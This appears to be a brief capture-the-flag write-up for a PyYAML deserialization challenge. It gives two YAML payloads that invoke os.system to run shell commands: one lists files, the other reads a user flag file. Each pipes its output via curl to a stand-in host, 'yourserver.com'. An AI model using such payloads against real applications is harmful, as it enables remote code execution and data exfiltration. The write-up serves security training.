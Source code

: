 ### Vuln: Py-yaml Deserialization

Solve:

Use this yaml config :

```
!!python/object/apply:os.system
- "ls > /tmp/x && curl -X POST --data-binary @/tmp/x http://yourserver.com"
```

This will send the output os ls to our server:
![image](https://github.com/user-attachments/assets/ceb063c2-8325-4a39-b8ba-da57054a1a8f)

![image](https://github.com/user-attachments/assets/d365ab87-bfea-4237-95b0-8971ce7210c9)

Flag:
```
!!python/object/apply:os.system
- "cat /home/ctfuser/user.txt > /tmp/x && curl -X POST --data-binary @/tmp/x http://yourserver.com"
```

![image](https://github.com/user-attachments/assets/50fd8522-3847-4e59-9ea9-3537e5ea9bf2)
